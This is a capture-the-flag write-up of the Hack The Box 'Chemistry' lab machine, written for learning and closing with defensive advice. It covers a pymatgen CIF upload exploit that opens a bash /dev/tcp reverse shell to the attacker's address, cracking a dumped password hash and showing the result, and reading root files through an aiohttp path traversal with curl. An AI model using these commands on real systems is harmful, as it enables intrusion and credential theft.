








# HTB - Chemistry

**IP Address:** `10.10.11.38`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** #Flask, #FileUpload, #PythonWerkzeug, #ReverseShell, #HashCracking, #LFI

---
## Synopsis

Chemistry is an easy Linux machine that demonstrates two vulnerabilities:  
1. A **Remote Code Execution (RCE)** in the `pymatgen` Python library (CVE-2024-23346) by uploading a malicious `.cif` file to a Flask-based **CIF Analyzer** application.  
2. A **Local File Inclusion (LFI)** in the `aiohttp` Python library (CVE-2024-23334) running internally, allowing arbitrary file reads and access to the root flag.  

The attack path involves exploiting the RCE to gain a foothold, extracting and cracking password hashes to move laterally via SSH, then abusing the LFI for privilege escalation.

---
## Skills Required

- Basic Python knowledge  
- Basic Linux command-line usage

## Skills Learned

- Python deserialization attack via `pymatgen` CIF parser  
- Arbitrary file read through `aiohttp` path traversal  
- Password hash cracking and lateral movement

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive using ICMP:

```bash
ping -c 1 10.10.11.38
```


The machine responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify running services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.38 -oG allPorts
```

- `-p-`: Scan all ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan (stealthy and fast)  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format


Extract the open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

Run a deeper scan with service/version detection and default scripts:

```bash
nmap -sCV -p22,5000 10.10.11.38 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format



**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0) |
| 5000 | HTTP    | Werkzeug httpd 3.0.3 (Python 3.9.5) |


---
## 2. Web Enumeration

### 2.1 Basic Access

Browsing to `http://10.10.11.38:5000` reveals a Flask-based application **"Chemistry CIF Analyzer"**.


Tried common credentials (`admin:admin`, `root:root`, etc.) without success.:



Registered a new account:


Once logged in, the dashboard allows uploading `.cif` files — suggesting potential **file parsing vulnerabilities**.



---
### 2.2 Upload Functionality

The application accepts only `.cif` files and provides a sample in **here** button:


Researching CIF file parsing, we found a security advisory for `pymatgen` CIF parser:  
[GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f) — **Arbitrary Code Execution** vulnerability.

We crafted a malicious `.cif` file containing a reverse shell payload:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.3/9090 0>&1'
```


Started a listener:

```bash
nc -lnvp 9090
```

Uploaded the malicious file and clicked **view**.


Reverse shell obtained.

---
## 3. Foothold

Enumerating the system:

```bash
cat /etc/passwd
```


Only `root` and `rosa` accounts have valid shells.  

Let's navigate between system:


Inside `/instance`, found `database.db` containing password hashes:




Extracted the hash for `rosa`:

```
63ed86ee9f624c7b14f1d4f43dc251a5
```

Cracked using CrackStation:



**Password:** `unicorniosrosados`

SSH access as `rosa`:

```bash
ssh rosa@10.10.11.38
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Port Forwarding

Let's see if there are any service active in rosa ssh session:


From the SSH session, internal port scanning revealed a service on `127.0.0.1:8080`.  

If we try to access the website will not be loaded:


So we need to forwarded it locally by command

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

Refresh the website:



---
### 4.2 Exploiting LFI in aiohttp

Accessing the local service showed an internal web application.  

This version of `aiohttp` (3.9.1) is vulnerable to **Path Traversal → Arbitrary File Read** ([CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334)).

```bash
curl --path-as-is http://127.0.0.1:9999
```


Let's enumerate `/etc/passwd`:



We exploited the LFI to read `/root/root.txt`:

```bash
curl --path-as-is http://127.0.0.1:8080/assets/../../../root/root.txt
```


🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Found CIF file upload in Flask app.  
2. **pymatgen RCE** → Uploaded malicious `.cif` to obtain reverse shell.  
3. **Credential Harvesting** → Extracted `rosa`'s hash from SQLite DB and cracked it.  
4. **SSH Access** → Logged in as `rosa`.  
5. **Port Forwarding** → Accessed internal web app on port 8080.  
6. **aiohttp LFI** → Read `/root/root.txt` via path traversal.

---
## Defensive Recommendations

**For pymatgen RCE (CVE-2024-23346):**  
- Validate and sanitize file uploads; allow only trusted file formats.  
- Implement MIME type and magic number checks to confirm file type.  
- Process untrusted files in isolated environments (sandbox/jail).  
- Update `pymatgen` to the latest patched version.

**For aiohttp LFI (CVE-2024-23334):**  
- Update `aiohttp` to a non-vulnerable version.  
- Configure static file handlers to restrict access strictly to allowed directories.  
- Implement input validation to block `../` path traversal sequences.  
- Regularly test internal applications for common web vulnerabilities.
